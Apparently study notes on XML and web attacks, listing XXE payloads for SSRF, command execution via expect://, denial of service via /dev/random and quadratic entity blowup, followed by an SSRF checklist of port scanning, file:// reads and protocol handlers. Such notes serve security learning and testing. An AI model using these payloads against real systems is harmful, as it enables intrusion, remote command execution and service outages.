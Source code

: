 SSRF through XXE

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "http://scanme.nmap.org:20/">
]>
<student>
<name>&oops;</name>
</student>
```

RCE through XXE

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
	<!ENTITY rce SYSTEM "expect://id">
]>
<student>
<name>&rce;</name>
</student>
```

DoS through XXE

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
	<!ENTITY oops SYSTEM "file:///dev/random">
]>
<student>
<name>&oops;</name>
</student>
```

XML quadratic blowup

```
<?xml version="1.0"?>
<!DOCTYPE student [
<!ENTITY x "xxxxxxxxxxxxxxxxx..."> (50,000-100,000)
]>
<student>&x;&x;&x;&x;&x;&x;&x;&x;&x;...</student>
```

## Ch9 - Emerging attack vectors

### SSRF
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit

- Port scanning: `http://scanme.nmap.org:1234/`
- `file://` to read files from the vulnerable server
- Protocol handlers:
	- SSH: `scp://`,`sftp://`
	- POP3
	- IMAP
	- SMTP
	- FTP
	- DICT
	- GOPHER
	- TFTP
	- JAR
	- LDAP
